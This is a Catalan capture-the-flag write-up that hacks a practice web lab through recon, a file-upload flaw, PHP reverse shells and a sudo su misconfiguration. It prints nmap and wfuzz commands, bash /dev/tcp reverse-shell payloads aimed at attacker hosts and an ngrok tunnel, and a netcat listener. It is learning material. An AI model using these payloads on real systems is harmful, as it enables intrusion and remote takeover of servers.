










# VulnWeb
- **Autor del lab**: [Jordi Serrano](https://github.com/j0rd1s3rr4n0)
- **Autor del Write-Up**: [Fonta22](https://github.com/Fonta22)
- **Domini**: [hackmeifyoucan.com](http://hackmeifyoucan.com/)
- **IP**: `212.227.146.196`

## Afegir host
Primer de tot, afegim el domini al fitxer de hosts, localitzat a la ruta `/etc/hosts`.

```
212.227.146.196 hackmeifyoucan.com
```

Un cop fet això, podem visualitzar la web al navegador.

## Descripció de la web
Es tracta d'una web amb un disseny simple però ben trobat, on podem escoltar una cançó ben xula i penjar un fitxer.


Bueno, o no xD


A simple vista, la web té quatre pàgines principals:
- **Home** (`/index.php`): pàgina d'inici on es pot escoltar una cançó i ser *trol·lejat* pensant que pots penjar un fitxer.
- **Upload** (`/upload.php`): pàgina on realment pots penjar un fitxer.
- **Folder** (`/uploads/`): llistat de fitxers pujats. N'hi ha dos:
    - `LogicaProposicions.pdf`: PDF molt avorrit on pots aprendre lògica de proposicions (bombardeen UdG).
    - `parthenoun_shell.php`: arxiu PHP que te pinta a bomba nuclear. Està protegit sota una contrassenya.
- **Login** (`/login.php`): pàgina per logginar-se. Hi ha dos usuaris disponibles amb les seves respectives contrassenyes: **Admin** i **pepe**.

## Reconeixement
Primer de tot, comprovarem quin és el sistema del servidor executant un `ping`. Si el `ttl` s'aproxima a 64 significa que estem davant d'una màquina **Linux**, en canvi si s'aproxima a 128, d'una màquina **Windows**.

```
$ ping -c 1 212.227.146.196
```

Hem detectat que és una màquina Linux.

### Scan Nmap
Tot seguit procedim amb un scan d'**Nmap**. La comanda usada ha estat la següent:

```
$ nmap -p- --open -sS --min-rate 5000 -vvv -n 212.227.146.196 -oG allPorts
```

Gràcies a això descobrim que hi ha **3 ports oberts**. Aquests són:
- `22/tcp` (ssh)
- `53/tcp` (domain)
- `80/tcp` (http)

Un cop sabem els ports oberts, realitzarem un reconeixament més concret a aquests ports que hem descobert. Ignorarem el `53` ja que és tan sols per al domini.

```
$ nmap -p22,80 212.227.146.196 -sCV -oN targeted
```

La resposta obtinguda ha estat la següent:

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 8c:3c:b3:c9:55:22:8e:71:70:16:8b:cb:ce:04:2f:55 (RSA)
|   256 c9:98:28:1f:61:ef:59:c1:69:41:e8:9e:7a:75:74:7e (ECDSA)
|_  256 0d:9f:7f:a6:4a:06:6e:ea:b9:c1:de:7e:f7:9c:3e:60 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Index | MFW
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Així doncs, tenim un servidor d'**OpenSSH 8.2p1** al port `22` i un servidor HTTP d'**Apache 2.4.41** al port `80`. També hem descobert la distro de Linux utilitzada, **Ubuntu**.

## Escaneig de directoris
Com hem comentat anteriorment, a la web s'hi poden observar 4 pàgines, però podria ser que n'hi hagués més d'amagades que revel·lessin informació.

Usarem l'eina **WFuzz** per a escanejar els directoris de la web. Emprarem la *wordlist* `directory-list-lowercase-2.3-medium.txt` de **DirBuster**, i li direm que amagui les peticions que retornin un codi **404** amb la opció `--hc 404`.

```
$ wfuzz --hc 404 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt http://hackmeifyoucan.com/FUZZ
```

Gràcies a això, hem descobert el directori `/javascript/`, però no ens hi deixa accedir per falta de privilegis.



## Escaneig d'arxius PHP
Com hem pogut observar, la pàgina web està feta amb PHP. Se m'ha acudit fer un escaneig d'arxius amb l'extensió `.php`. Usarem un *wordlist* que he tret de **GitHub**, anomenat [Common-PHP-Filenames.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/Common-PHP-Filenames.txt).

```
$ wfuzz --hc 404 -w Common-PHP-Filenames.txt http://hackmeifyoucan.com/FUZZ
```

Ràpidament hem trobat els arxius que ja coneixiem, i un de nou, `logout.php`.

```
Target: http://hackmeifyoucan.com/FUZZ
Total requests: 5163

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000000029:   200        437 L    857 W      9785 Ch     "login.php"
000000002:   200        169 L    346 W      3836 Ch     "index.php"
000000077:   200        76 L     158 W      1508 Ch     "upload.php"
000000172:   302        11 L     47 W       480 Ch      "logout.php"
```

Segurament deu ser el que es crida en tancar sessió, però tampoc hi tenim accés (de moment >:D).

## Explotació d'`upload.php`
De moment els escanejos d'arxius han estat bastant inútils, però tampoc han estat de més. Anem a pel que crec q hauriem d'haver començat: **explotar el sistema de pujada de fitxers**.

Quan pengem un fitxer, aquest és llegit pel sistema i el penja a la ruta `/uploads/ARXIU`.

Què passaria si li pengem un arxiu amb codi PHP? Intentem-ho.

**echo.php**:
```php
<?php echo "XAAAAATOOOOO"; ?>
```

Sembla que ha funcionat. Ens deixa executar el fitxer.



Però i si en comptes de fer que escrigui un text a la pàgina, li enxufem un comando que es connecti a la nostra màquina? *(Reverse Shell)*

Per a generar la comanda, faré us de la pàgina [revshells.com](https://www.revshells.com/). No oblidem seleccionar el tema "Meme".



Un cop tenim la comanda per a la víctima i l'atacant, creem l'arxiu PHP.

**shell.php**:
```php
<?php exec("bash -i >& /dev/tcp/212.227.146.196/4646 0>&1") ?>
```

Prèviament a penjar l'arxiu, ens posem en escolta al port `4646` amb **Netcat**.

```
$ nc -lvnp 4646
```

Un cop pengem l'arxiu i l'obrim, no passa absolutament res perquè no he especificat la IP de l'atacant (la meva), sinó la de la víctima, per tant s'està intentant connectar a sí mateix (sóc burro).

Ara sí, ho fotrem bé.

**shell.php**:
```php
<?php exec("bash -i >& /dev/tcp/IP_DEL_FONTA/4646 0>&1") ?>
```

Doncs mecagum deu no va. *xd*.

### Intent de port forwarding
Fent una mica de recerca, al tenir la IP dinàmica no funciona. Haurem de fer port forwarding amb **Ngrok**.

Primer de tot, obrim un **túnel TCP** al port desitjat, en aquest cas, el `4646`.

```
$ ngrok tcp 4646
```

D'aquesta manera, obtenim una url que redirigeix al nostre port local.

```
tcp://X.tcp.eu.ngrok.io:XXXXX -> localhost:4646
```

Així doncs, podem actualitzar el nostre *payload*, aviam si va aquest cop.

**shell_ngrok.php**:
```php
<?php exec("bash -i >& /dev/tcp/X.tcp.eu.ngrok.io:XXXXX 0>&1") ?>
```

*TAMPOC VA.*

Provem una altra sintaxi.

**shell_ngrok.php**:
```php
<?php exec("bash -c 'bash -i >& /dev/tcp/X.tcp.eu.ngrok.io:XXXXX 0>&1'") ?>
```

Doncs tampoc.

### Shell ja feta de Kali Linux
Després dels meus nefastos intents, recercant he trobat que **Kali Linux** ja inclou una sèrie de scripts de reverse shell per a PHP. Anem a intentar-ho.

**Ruta**: `/usr/share/webshells/php/php-reverse-shell.php`

Finalment després d'editar el fitxer amb la IP i el port desitjat, hem aconseguit una connexió!



## Exploració del servidor
En el servidor, a part d'una wordlist immensa al directori `/home/armando` (molt graciós Jordi, m'ha fet perdre la connexió), no hi he trobat res gaire rellevant, a part d'un fitxer `.ovpn`, que correspon a **OpenVPN**. Això vol dir que si l'executem, podem establir una connexió VPN a un servidor.

Si llegim l'arxiu, el servidor és `bluegraded.i234.me`, i el port `1194`.

M'he descarregat l'arxiu i l'he executat, però ens demana autenticar-nos. De moment no en tenim les credencials.

D'altra banda, si naveguem a l'URL del servidor, trobem una pàgina web amb un formulari d'autenticació, també de PHP.



A partir d'aquest punt ja no sé si això és una cosa externa o té algo a veure amb la web. Decideixo moure'm a l'inici altre cop.

> **EDIT**: m'han confirmat que aquell arxiu no havia d'estar allà, osigui que menos mal que no hem fet res XD

## `whoami`: `root`
En una nova instància de shell, comprovo els privilegis de `sudo` de l'usuari actual. Ves per on, té pebrots la cosa:

```
$ sudo -l
Matching Defaults entries for www-data on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/su
```

Sense pensar-m'ho dues vegades executo la comanda `su` i aconsegueixo escalar privilegis de manera bastant èpica.



Dins el directori `/root` finalment trobem l'arxiu `flag.txt` que conté la flag!



## Website fail
Inspeccionant la web, he entrat al directori `/var/www/html/hackmeifyoucan`. Aquest directori conté el codi font de la web, el qual podem interpretar i obtenir informació molt valuosa. A més, hi ha una altra flag!



Realment aquesta era la primera que haviem d'aconseguir, ja que no requeriem de privilegis per a trobar-la, però bé, jo ja tenia la de `root` guardada.

## Target: `armando`
Dins de la carpeta `/var/www/html` trobo un arxiu que em crida l'atenció: `credentials_ssh.md`.

```md
**TODO: Reforzar la seguridad de la contraseña de "armando"**

La contraseña actual de "armando" es muy insegura y
está en riesgo de ser comprometida. Es importante
tomar medidas para mejorar su seguridad en línea.
La canción "Will Rock You" de Queen nos recuerda
que la fortaleza y la resistencia son clave para
enfrentar cualquier desafío. Es hora de elevar la
seguridad de la contraseña de "armando" para que pueda
resistir cualquier intento de acceso no autorizado.
```

D'entrada ens està donant un usuari d'`SSH`: **armando**. Alhora ens don pistes sobre la contrassenya, i ens confirma que no és gaire segura.

Dins `/home/armando` trobem una wordlist, com hem dit abans. Es tracta de `rockyou.txt`, la més famosa a l'hora de crackejar contrassenyes. Se m'acut realitzar un atac de força bruta emprant aquest fitxer.

## Flag final
Finalment, abans de petar el servidor amb força bruta, m'he percatat gràcies a la comanda `ls -a` que dins de `/home/armando` hi havia la última flag, tot i que estava oculta.



Ja tenim les 3 flags! No les hem aconseguit per ordre, però hi són totes!

## Conclusions
Al final, després de molts errors i liades, hem aconseguit les flags, no per ordre, però totes 3!

El lab és molt complert i el recomano molt a gent que estigui començant com jo, ja que permet practicar *XSS* i *reverse shells*, alhora d'aprendre a escalar privilegis en un entorn Linux.

```
  █████▒▒█████   ███▄    █ ▄▄▄█████▓ ▄▄▄      
▓██   ▒▒██▒  ██▒ ██ ▀█   █ ▓  ██▒ ▓▒▒████▄    
▒████ ░▒██░  ██▒▓██  ▀█ ██▒▒ ▓██░ ▒░▒██  ▀█▄  
░▓█▒  ░▒██   ██░▓██▒  ▐▌██▒░ ▓██▓ ░ ░██▄▄▄▄██
░▒█░   ░ ████▓▒░▒██░   ▓██░  ▒██▒ ░  ▓█   ▓██▒
 ▒ ░   ░ ▒░▒░▒░ ░ ▒░   ▒ ▒   ▒ ░░    ▒▒   ▓▒█░
 ░       ░ ▒ ▒░ ░ ░░   ░ ▒░    ░      ▒   ▒▒ ░
 ░ ░   ░ ░ ░ ▒     ░   ░ ░   ░        ░   ▒  
           ░ ░           ░                ░  ░
```